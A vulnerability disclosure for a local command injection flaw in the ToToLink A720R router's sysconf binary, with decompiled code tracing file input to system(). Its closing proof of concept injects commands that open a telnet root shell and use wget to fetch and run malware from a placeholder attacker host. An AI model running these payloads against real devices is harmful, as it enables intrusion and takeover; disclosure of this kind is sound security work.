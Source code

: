 # Command Injection Vulnerability in `/var/system/linux_vlan_reinit`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink A720R Router                                        |
| Firmware Version     | **V4.1.5cu.614_B20230630**                                   |
| Vulnerability Type   | **Local Command Injection via File Input**                   |
| Vulnerable Component | `sysconf` (parses `/var/system/linux_vlan_reinit` and passes values to `system()` via `sub_40AC08`) |
| Prerequisites        | Requires control over `/var/system/linux_vlan_reinit` content or filesystem write permissions (local exploitation only) |

2. Exploitation Path

```c
// sysconf
int sub_40BFA4()
{
  ...
  v0 = isFileExist("/var/system/linux_vlan_reinit");
  v1 = 0;
  if ( v0 )
  {
    v2 = fopen("/var/system/linux_vlan_reinit", "r");
    v1 = -1;
    if ( v2 )
    {
      memset(v9, 0, 256);
      fgets(v9, 256, v2);
      v3 = (const char *)strtok_r(v9, ":", &v8);
      if ( !v3 )
        goto LABEL_11;
      while ( !memcmp(v3, "eth", 3) || !memcmp(v3, "wlan", 4) )
      {
        sub_40AC08("ifconfig %s down", v3);
        sub_40AC08("vconfig rem %s", v3);
        ...
}

int sub_40AC08(const char *a1, ...)
{
  int result; // $v0
  _BYTE v2[260]; // [sp+1Ch] [-104h] BYREF
  va_list va; // [sp+12Ch] [+Ch] BYREF

  va_start(va, a1);
  result = vsnprintf(v2, 256, a1, (int *)va);
  if ( result >= 0 )
  {
    system(v2);
    return 0;
  }
  return result;
}
```

3. **Vulnerable Binaries:** `sysconf`.
4. 0-Day Command Injection Exploitation Path:
   - In the `sysconf` file, at line 14, `fgets(v9, 256, v2)` reads content from `/var/system/linux_vlan_reinit`. Afterward, only the prefixes are checked using `memcmp(v3, "eth", 3)` or `memcmp(v3, "wlan", 4)` without performing any escaping or filtering. The string is then concatenated in line 20 via `sub_408FC8("ifconfig %s down", v3)` and directly passed to `system(v2)` at line 35, leading to a command injection vulnerability.
   - In the `sysconf` file, at line 14, `fgets(v9, 256, v2)` reads content from `/var/system/linux_vlan_reinit`. Afterward, only the prefixes are checked using `memcmp(v3, "eth", 3)` or `memcmp(v3, "wlan", 4)` without performing any escaping or filtering. The string is then concatenated in line 21 via `sub_40AC08("vconfig rem %s", v3)` and directly passed to `system(v2)` at line 35, leading to a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```bash
# Create a malicious configuration file
echo "eth0; telnetd -l /bin/sh -p 4444; reboot" > /var/system/linux_vlan_reinit
echo "wlan0; wget http://attacker.com/malware -O /tmp/exp; sh /tmp/exp" >> /var/system/linux_vlan_reinit
/sysconf &
```
